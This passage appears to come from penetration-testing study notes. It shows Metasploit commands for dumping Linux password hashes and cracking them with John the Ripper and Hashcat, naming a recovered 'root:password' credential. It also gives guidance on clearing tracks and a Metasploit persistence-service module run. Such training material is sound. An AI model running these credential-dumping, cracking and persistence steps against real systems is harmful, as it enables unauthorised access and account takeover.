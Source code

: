 The other method is using MSF post-exploitation module.

```bash
msf6> use post/linux/gather/hashdump
msf6> set session 2
msf6> run
```

**Crack with John**

```bash
kali@kali> gzip -d /usr/share/wordlists/rockyou.txt.gz
kali@kali> john --format=sha512crypt /root/.msf4/loot/20230811072245_default_192.255.149.3_linux.hashes_377820.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Crack with Hashcat**

```bash
kali@kali> hashcat -a 3 -m 1800  /root/.msf4/loot/20230811072245_default_192.255.149.3_linux.hashes_377820.txt /usr/share/wordlists/rockyou.txt
```

The credentials are `root:password`.

### Clearing your tracks

#### Windows

* The exploitation and post-exploitation phases of a penetration test involves actively engaging with target systems and the data that is stored on these systems.
* As a result, you may be required to clear/undo any changes you have made to the target systems you have compromised based on the guidelines specified in the rules of engagment.
* If you have transferred any files to the target systems you have compromised, keep track of chere they have been saved so that you can remove them when done.
* A good practive is to store all your scripts, exploits and binaries in the `C:/Temp` directory on Windows and the `/tmp` directory on Linux.
* It is also important to consider the exploitation framework you are using, an example of this is MSF, which notorious for generating and storing artifacts on the target system when using exploit or post modules.
* Some well designed MSF modules provide you with instructions and resource scripts that provide you with information regarding where the artifacts are stored and how they can be removed.
* In the context of Windows, a typical post-exploitation technique pertinent to clearing your tracks is to delete the Windows Event Log. This is something that should be avoided during a penetration test as the Windows Event Log stores a lot of data that is important to the client you are performing the penetration test for.

```bash
msf6> use exploit/windows/local/persistence_service
msf6> set session 1
msf6> set lport 445
msf6> run
```

Once you run the command, you can go to loot and copy the path file of the module script.

```bash
msf6> resource /root/.../script
```
